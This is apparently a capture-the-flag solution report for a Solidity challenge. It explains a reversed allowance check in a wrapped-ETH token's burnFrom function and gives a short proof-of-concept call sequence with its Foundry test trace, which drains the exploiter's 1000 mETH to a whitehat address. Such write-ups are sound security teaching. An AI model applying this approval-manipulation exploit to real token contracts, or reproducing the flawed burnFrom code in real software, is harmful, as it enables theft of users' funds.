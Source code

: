 # Challenge 1: Operation magic redemption - Solution Report

## Problem Overview

### Contract Summary

The challenge revolves around the `MagicETH` contract, which is an ERC20 token implementation designed to wrap ETH. Its main functionalities include:

1. `deposit()`: Allows users to deposit ETH and receive an equivalent amount of mETH tokens.
2. `withdraw(uint256 amount)`: Enables users to burn mETH tokens and receive the corresponding ETH.
3. `burnFrom(address account, uint256 amount)`: Allows burning tokens from a specified account, given proper allowance.

### Initial Setup

- The `MagicETH` contract is deployed with 1000 ETH deposited.
- The `exploiter` address is given control of 1000 mETH tokens.
- The `whitehat` address starts with 0 mETH and 0 ETH.

### Success Criteria

To successfully complete the challenge, the `whitehat` must:

1. Recover 1000 mETH from the `exploiter` address.
2. Convert the recovered 1000 mETH to 1000 ETH.

The test will pass if the `whitehat` address ends up with a balance of 1000 ETH.

## Vulnerability

The primary vulnerability in the `MagicETH` contract lies in the `burnFrom` function. The problematic code is on lines 33-40:

```solidity
function burnFrom(address account, uint256 amount) public {
    uint256 currentAllowance = allowance(msg.sender, account);
    require(currentAllowance >= amount, "ERC20: insufficient allowance");

    // decrease allowance
    _approve(account, msg.sender, currentAllowance - amount);

    // burn
    _burn(account, amount);
}
```

The vulnerability stems from two key issues:

1. **Incorrect Allowance Check**: The function checks if the caller (`msg.sender`) has been approved by the `account` to spend tokens. However, this is the reverse of what it should be. It should check if the `account` has approved `msg.sender` to spend tokens.

2. **Misuse of `_approve`**: The function calls `_approve(account, msg.sender, currentAllowance - amount)`. This effectively sets an approval from `account` to `msg.sender`, which is backwards. It should be setting an approval from `msg.sender` to `account`.

These issues allow an attacker to manipulate approvals in unexpected ways. Specifically, by calling `burnFrom` with an amount of 0, an attacker can set their own address to have maximum allowance for spending the tokens of any other address, without actually burning any tokens or requiring any pre-existing approval.

## Attack Process

The attack to recover the 1000 mETH from the exploiter and convert it to ETH can be carried out in the following steps:

1. **Approve Exploiter**:

   - The whitehat first approves the exploiter to spend their tokens.
   - This step is necessary to pass the allowance check in the `burnFrom` function.

2. **Exploit `burnFrom` Vulnerability**:

   - The whitehat calls `burnFrom(exploiter, 0)`.
   - This exploits the vulnerability in the `burnFrom` function.
   - As a result, the whitehat gains maximum allowance to spend the exploiter's tokens.
   - No tokens are actually burned due to the amount being 0.

3. **Transfer Exploiter's Tokens**:

   - Using the gained allowance, the whitehat transfers all 1000 mETH from the exploiter to themselves.
   - This is done using the `transferFrom` function of the ERC20 standard.

4. **Withdraw ETH**:
   - Now holding 1000 mETH, the whitehat calls the `withdraw` function.
   - This burns the 1000 mETH and transfers the corresponding 1000 ETH to the whitehat.

By the end of this process, the whitehat has successfully recovered the 1000 mETH from the exploiter and converted it to 1000 ETH, meeting the challenge's success criteria.

## Proof of Concept (PoC)

### Core Implementation

The core implementation of the attack is carried out in the `testExploit` function of the `Challenge1Test` contract. Here's the step-by-step breakdown:

1. Approve Exploiter:

```solidity
mETH.approve(exploiter, type(uint256).max);
```

This approves the exploiter to spend the maximum possible amount of the whitehat's tokens.

2. Exploit `burnFrom` Vulnerability:

```solidity
mETH.burnFrom(exploiter, 0);
```

This call exploits the vulnerability in the `burnFrom` function, giving the whitehat maximum allowance to spend the exploiter's tokens.

3. Transfer Exploiter's Tokens:

```solidity
mETH.transferFrom(exploiter, whitehat, 1000 ether);
```

Using the gained allowance, this transfers all 1000 mETH from the exploiter to the whitehat.

4. Withdraw ETH:

```solidity
mETH.withdraw(1000 ether);
```

This burns the 1000 mETH and withdraws the corresponding 1000 ETH to the whitehat's address.

### Running Result

```
Ran 1 test for test/Challenge1.t.sol:Challenge1Test
[PASS] testExploit() (gas: 114169)
Traces:
  [143669] Challenge1Test::testExploit()
    ├─ [0] VM::startPrank(whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA], whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA])
    │   └─ ← [Return]
    ├─ [24651] MagicETH::approve(exploiter: [0x5Bf3eeB5560eEACC941C553320999006D27dD42b], 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   ├─ emit Approval(owner: whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA], spender: exploiter: [0x5Bf3eeB5560eEACC941C553320999006D27dD42b], value: 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   └─ ← [Return] true
    ├─ [31504] MagicETH::burnFrom(exploiter: [0x5Bf3eeB5560eEACC941C553320999006D27dD42b], 0)
    │   ├─ emit Approval(owner: exploiter: [0x5Bf3eeB5560eEACC941C553320999006D27dD42b], spender: whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA], value: 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   ├─ emit Transfer(from: exploiter: [0x5Bf3eeB5560eEACC941C553320999006D27dD42b], to: 0x0000000000000000000000000000000000000000, value: 0)
    │   └─ ← [Stop]
    ├─ [563] MagicETH::balanceOf(exploiter: [0x5Bf3eeB5560eEACC941C553320999006D27dD42b]) [staticcall]
    │   └─ ← [Return] 1000000000000000000000 [1e21]
    ├─ [826] MagicETH::allowance(exploiter: [0x5Bf3eeB5560eEACC941C553320999006D27dD42b], whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA]) [staticcall]
    │   └─ ← [Return] 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77]
    ├─ [28254] MagicETH::transferFrom(exploiter: [0x5Bf3eeB5560eEACC941C553320999006D27dD42b], whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA], 1000000000000000000000 [1e21])
    │   ├─ emit Transfer(from: exploiter: [0x5Bf3eeB5560eEACC941C553320999006D27dD42b], to: whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA], value: 1000000000000000000000 [1e21])
    │   └─ ← [Return] true
    ├─ [563] MagicETH::balanceOf(whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA]) [staticcall]
    │   └─ ← [Return] 1000000000000000000000 [1e21]
    ├─ [40291] MagicETH::withdraw(1000000000000000000000 [1e21])
    │   ├─ emit Transfer(from: whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA], to: 0x0000000000000000000000000000000000000000, value: 1000000000000000000000 [1e21])
    │   ├─ [0] whitehat::fallback{value: 1000000000000000000000}()
    │   │   └─ ← [Stop]
    │   └─ ← [Stop]
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    └─ ← [Stop]
```

